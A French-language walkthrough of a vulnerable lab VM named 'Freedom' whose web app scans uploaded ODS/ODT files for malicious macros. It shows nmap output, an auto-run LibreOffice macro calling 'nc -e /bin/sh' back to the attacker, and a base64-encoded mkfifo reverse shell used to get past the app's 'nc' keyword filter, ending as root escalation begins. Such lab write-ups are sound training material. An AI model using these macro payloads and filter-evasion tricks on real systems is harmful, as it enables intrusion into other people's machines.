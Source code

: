 ```yaml
---
title: "Freedom"
description: pickle-fr.jpg
tags: ["Dans cet article je vous présente la machine que j'ai créée, une machine consacré au détéction de malware."]
---
```


# Scan Nmap

    └──╼ [★]$ nmap -p1-65535 192.168.0.22
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 10:37 CET
    Nmap scan report for 192.168.0.22
    Host is up (0.031s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:A1:40:3C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds
    ─[10:35:38]─[192.168.0.17]─[root@oldprogrammer]─[~/Documents/wild_code_school/freedom]
    └──╼ [★]$ nmap -p80 -sC -sV 192.168.0.22
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 10:38 CET
    Nmap scan report for 192.168.0.22
    Host is up (0.00070s latency).

    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Office macro control
    MAC Address: 08:00:27:A1:40:3C (Oracle VirtualBox virtual NIC)

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.62 seconds
    

Le scan à trouvé uniquement le port `80` qui tourne sur Apache, et il semblerait que la version d'[Apache](https://www.apachelounge.com/Changelog-2.4.html) est plus ou moins récent.

# HTTP

Il s'avère que c'est un site qui `traite` et détecte si les fichiers de type `ODS` ou `ODT` peuvent contenir une `Macro` et essayer de détecté si il y a des choses suspicieux dans le `fichier`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-27-26.png)

Donc, l'application semblerait que il n'accepte pas les autres extensions telles que `jpg`, `png`, `gif` etc.. Donc, j'ai décidé de prendre une `liste` complète des [extensions](https://github.com/dyne/file-extension-list) disponibles sur Linux, et essayer extension par extension avec `BurpSuite` pour trouver celui qui correspond pour l'application, et il s'avère que il a trouvé deux extensions assez intéréssantes, c'est `ODS` et `ODT`.

J'ai essayé de créer un fichier `ODS` avec LibreOffice `New > SpreadSheet` et sauvegarder. Il semblerait que l'application décompresse le fichier `ODS` avec ̀`unzip` et semble le mettre dans le dossier `/office/odt/[numéro_aléatoire]/`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-45-09.png)

# Création Macro

Pour cela, nous allons créer une `macro` avec `LibreOffice` et activer les paramètres nécessaires pour que l'application traite notre fichier, donc allons dans la barre de recherche et lançons `LibreOffice`.

Créeons un nouveau un fichier avec `SpreadSheet` et sauvegarder ce fichier. Allons ensuite dans `Tools` > `Macros` > `Organize macros` et de prendre `Basic`. Choissisez le nom de votre de fichier, ensuite de cliquer sur `Standard` et enfin de créer le `Module` avec l'option `New` à droite, comme dans la capture ci-dessous.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-50-51.png)

Une fois le module ajouté, logiquement une page va s'ouvrir automatiquement où nous pouvons écrire dessus, donc utilisons la fonction `Shell` pour créer notre `payload` et sauvegardons cela.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-57-16.png)

Maintenant nous devons en sorte que lorsque l'utilisateur ouvrivra notre fichier `ODS`, il faut que la `Macro` soit exécute juste après automatiquement. Allons dans `Tools` > `Customize` > `Events` > cliquer sur `Open Document` et ensuite de cliquer sur `Macro` et de choisir votre macro.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_12-02-22.png)

# Reverse Shell

Créeons un listener sur notre machine avec `nc` sur le port `9001` (dans mon cas), et uploadons le fichier `ODS`. Il s'avère que j'ai pas réçu quelque chose de la machine cible, et il y a une chose très intéréssante sur ce que renvoie le site, il a detecté que `nc` était dangereux et donc à bloqué l'exécution du fichier `ODS`. Il s'avère que il a bloqué les strings `nc` dans le fichier `linux_rule_detect /office/odt/6217/Basic/Standard//script-lb.xml` et `linux_rule_detect /office/odt/6217/Basic/Standard//Module1.xml`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_12-08-08.png)

Pour cela, je vais décompresser le fichier `ODS` avec `unzip` et d'investiguer les fichiers `script-lb.xml` et `Module1.xml` dans le dossier `Standard`.

    ─[11:26:17]─[192.168.0.17]─[root@oldprogrammer]─[~/machine/freedom/ods]
    └──╼ [★]$ unzip test.ods             
    Archive:  test.ods                                                            
     extracting: mimetype                
      inflating: Basic/Standard/Module1.xml                                
      inflating: Basic/Standard/script-lb.xml  
      inflating: Basic/script-lc.xml                                              
       creating: Configurations2/toolbar/
       creating: Configurations2/floater/                                                                                                                       
       creating: Configurations2/menubar/                                         
       creating: Configurations2/popupmenu/ 
       creating: Configurations2/accelerator/                              
       creating: Configurations2/toolpanel/ 
       creating: Configurations2/progressbar/
       creating: Configurations2/statusbar/ 
       creating: Configurations2/images/Bitmaps/
      inflating: manifest.rdf            
      inflating: meta.xml                
      inflating: styles.xml              
      inflating: content.xml             
      inflating: settings.xml            
     extracting: Thumbnails/thumbnail.png   
      inflating: META-INF/manifest.xml   


Lorsque j'ouvre le fichier `Module1.xml`, il est logique que il détecte `nc` car c'est une commandé prevu, mais je n'arrive pas à voir le deuxième `nc`. Il s'agit en fait de `e(nc)onding` et l'application le détecte comme une string dangereux alors que pas du tout, c'est un faux positif. 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
    <script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****

    Sub Main
            Shell(&quot;nc -e /bin/sh 192.168.0.17 9001&quot;)
    End Sub
    
Dans ce cas, je suis obligé d'enlever `encoding="UTF-8"` dans le fichier `script-lb.xml` et dans `Module1.xml`. Il faut changer également la commande `nc -e /bin/sh 192.168.0.17 9001` par autre chose. Je vais prendre le payload assez connu de `PentestMonkey`, donc je vais prendre ce payload le mettre en `base64` (car il y a nc dedans).

    $ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.17 9001 >/tmp/f"|base64
    cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjE3IDkwMDEgPi90bXAvZgo=

Ensuite dans LibreOffice je vais remplacer le payload par : 

    Shell("echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjE3IDkwMDEgPi90bXAvZgo="|base64 -d|sh")

Nous pouvons sauvegarder, enlever le `encoding="UTF-8"` sauvegarder, compresser le fichier avec `zip -r test.ods *`, et ensuite de l'envoyer à la machine cible à l'aide du serveur Web, lorsque je l'upload je réçois immédiatement un shell. 

    listening on [any] 9001 ...
    connect to [192.168.0.17] from (UNKNOWN) [192.168.0.22] 56628
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c "import pty;pty.spawn('/bin/bash')"
    john@freedom:/var/www/html$ id
    uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
    
# Privesc Root

J'ai pas spécialement trouver des choses intéréssantes pour être SUID, mais il s'avère que le système exécute un `crontab`, donc je vais en profiter pour installer [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64) pour intercepter les commandes executés dans le système par les utilisateurs.

